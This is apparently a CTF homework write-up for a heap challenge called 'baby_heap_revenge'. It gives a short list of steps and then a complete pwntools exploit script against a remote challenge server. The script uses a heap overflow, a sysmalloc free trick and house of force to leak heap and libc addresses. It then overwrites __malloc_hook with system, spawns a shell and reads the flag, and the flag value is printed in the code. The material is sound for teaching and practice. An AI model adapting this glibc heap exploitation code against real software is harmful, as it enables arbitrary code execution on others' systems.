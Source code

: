 # HW5
## baby_heap_revenge 150
* 8 bytes heap overflow.
* `_int_free` in `sysmalloc` trick.
* Forge `top chunk` size.
* `malloc` a size larger than size of top chunk.
* Trigger `_int_free` in `sysmalloc`, got freed chunk.
* Create two smallbin chunk , and use house of force to leak `fd` and `bk` for leaking `heap` , `libc`.
* House of force force to `__malloc_hook`.
* Overwrite `__malloc_hook` with `system`.
* `malloc( size = address ["sh;"] )` -> `system( "sh;" )`.
```python
#!/usr/bin/env python
from pwn import *

# FLAG{YOUARENOTBABYATALL}

e , l = ELF('./baby_heap_revenge-1679ad2998791cc85a2e1651627a1d1304d76157') , ELF('./libc.so.6-14c22be9aa11316f89909e4237314e009da38883')


y = remote( 'csie.ctf.tw' , 10141 )


def alloc( size , data , yuawn = False ):
    y.sendafter( 'ice:' , '1' )
    y.sendafter( 'Size :' , str( size ) )
    if yuawn:
        sleep( 0.7 )
        y.sendline( 'cat /home/`whoami`/flag' )
        y.interactive()
    y.sendafter( 'Data :' , data )

def sho():
    y.sendafter( 'ice:' , '2' )



alloc( 0x400 , 'sh;' )
alloc( 0x400 , 'a' )
alloc( 0xf68 - 0x250 - 0xa00 , 'a' * ( 0xf68 - 0x250 - 0xa00 ) + p64( 0x4c1 ) ) # shrink top chunk size 0x4c1

alloc( 0x508 , 'a' * 0x508 ) # trigger sysmalloc _int_free

alloc( 0x400 , 'a' )
alloc( 0x400 , 'a' )
alloc( 0x408 , 'a' * 0x408 + p64( 0x2d1 ) ) # again

alloc( 0x308 , 'a' )
alloc( 0x210 , 'a' )

alloc( 0x108 , 'a' * 0x108 + p64( 0xffffffffffffffff ) ) # fake top chunk size for house of force

alloc( -136432 , 'a' ) # force it

alloc( 0x100 , 'A' * 0x10 )

sho()

y.recvuntil( 'A' * 0x10 )
heap = u64( y.recv(4).ljust( 8 , '\x00' ) ) - 0xf50
log.success( 'heap -> %s' % hex( heap ) )

alloc( 0x108 , 'a' * 0x108 + p64( 0xffffffffffffffff ) )

alloc( -560 , 'a' )

alloc( 0x100 , 'a' * 8 + p64( 0x91 ) ) # fix smallbin size

alloc( 0x88 , 'a' )

alloc( 0x88 , 'A' * 8 )

sho()
y.recvuntil( 'A' * 0x8 )
l.address += u64( y.recv(6).ljust( 8 , '\x00' ) ) - 0x3c4bf8
log.success( 'libc -> %s' % hex( l.address ) )

alloc( 0x18 , 'a' * 0x18 + p64( 0xffffffffffffffff ) )

top_ofs = 0x22070

log.info( 'nb -> ' + str( l.symbols['__malloc_hook'] - ( heap + top_ofs ) - 0x20  ) )

alloc( l.symbols['__malloc_hook'] - ( heap + top_ofs ) - 0x20 , 'a' ) # force to __malloc_hook


alloc( 0x777 , p64( l.symbols['system'] ) )

alloc( heap + 0x10 , 'yuawn' , yuawn = True ) # malloc( size = ["sh;"] ) -> system( "sh;" )
```